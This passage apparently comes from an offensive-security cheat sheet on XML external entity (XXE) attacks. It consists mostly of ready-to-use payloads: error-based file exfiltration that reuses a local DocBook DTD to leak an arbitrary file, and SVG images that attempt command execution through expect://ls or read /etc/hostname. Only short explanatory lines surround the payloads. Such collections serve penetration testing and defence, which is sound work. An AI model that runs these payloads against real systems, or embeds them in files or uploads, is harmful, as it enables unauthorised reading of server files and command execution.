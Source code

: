 If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

Assuming payloads such as the previous return a verbose error. You can start pointing to local DTD. With an found DTD, you can submit payload such as the following payload. The content of the file will be place in the error message.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```

[Other payloads using different DTDs](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)


## XXE in exotic files

### XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
